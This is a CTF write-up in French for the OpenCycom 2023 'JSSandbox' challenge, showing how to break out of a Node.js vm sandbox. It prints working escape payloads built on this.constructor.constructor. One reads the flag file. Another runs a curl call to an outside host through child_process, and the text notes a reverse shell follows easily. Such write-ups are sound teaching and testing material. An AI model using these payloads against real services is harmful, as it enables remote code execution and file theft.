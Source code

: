```yaml
---
title: "JSSandbox"
date: 2023-06-13T09:03:20-08:00
draft: false
---
```


# OpenCycom 2023 - JSSandbox - *300 pts*

## Énoncé
J'ai codé un super outil pour que les débutants puissent apprendre à utiliser NodeJS facilement sur Internet, en plus j'ai sandboxé l'exécution pour pas que des petits filous essayent de faire n'importe quoi :)

Je doute quand même de la robustesse de la méthode que j'ai employée, tu peux y jeter un coup d'oeil ?

*le flag se trouve dans le fichier* `/flag`

*Ce challenge a été résolu par 8,3% des équipes.*

## Solution

Une sandbox JavaScript ! Elle me permet de jouer avec JS et d'apprendre à programmer.

La première question que je me pose est : qui ou quoi exécute mon code ? Dans ce cas précis, ça a l'air d'être le serveur qui fait tout, car rien n'est exécuté côté client. Cela veut dire que le serveur exécute le code que je veux, pas mal non ?

![](images/015/01.png)

Sauf qu'après quelques essais, on se rend compte que cette sandbox est bien limitée : pas d'accès aux modules `fs` ou `child_process`, et surtout, pas possible de `require` des nouveaux modules.

Cela ressemble a une VM JavaScript faite avec le module node `vm`, mais c'est plutôt une bonne nouvelle pour nous, car ce module n'est pas sécurisé du tout.

Commençons par essayer de trouver si un contexte existe avec le keyword `this`.

![](images/015/02.png)

On nous retourne `[Object object]`, ce qui veut dire que `this` existe bel et bien.

Après quelques recherches sur Internet, je me rends compte qu'il serait possible de sortir du contexte de la VM en utilisant les constructeurs de mon objet `this` : `this.constructor.constructor`. Cela veut dire qu'on peut lui passer une fonction anonyme sous forme de texte, qui sera automatiquement appelée par le constructeur lors de son instanciation. 

Par exemple, on peut faire : `this.constructor.constructor('return 1+1')`

![](images/015/03.png)

Bingo, on arrive à exécuter du code. Mais ça nous avance à quoi ?
Ce qui compte ici c'est le contexte dans lequel est exécuté notre code. En utilisant les constructeurs, on est en mesure d'échapper le contexte de la VM pour se retrouver dans le contexte global.

On peut maintenant utiliser `require` pour appeler n'importe quelle librairie native ! À nous le flag.

`this.constructor.constructor("return process.mainModule.require(\'fs\').readFileSync(\'flag\',\'utf-8\')")()`

![](images/015/04.png)

Petit bonus, on peut également obtenir une RCE côté système avec le module `child_process`.

`this.constructor.constructor("return process.mainModule.require(\'child_process\').exec(\'curl http://opencycom.free.beeceptor.com\')")()`

![](images/015/05.png)

![](images/015/06.png)

À partir de là, il est trivial d'obtenir un reverse shell :)

*FLAG : OPC{VM\*\*\*\*\*\*\*\*\*\*}*
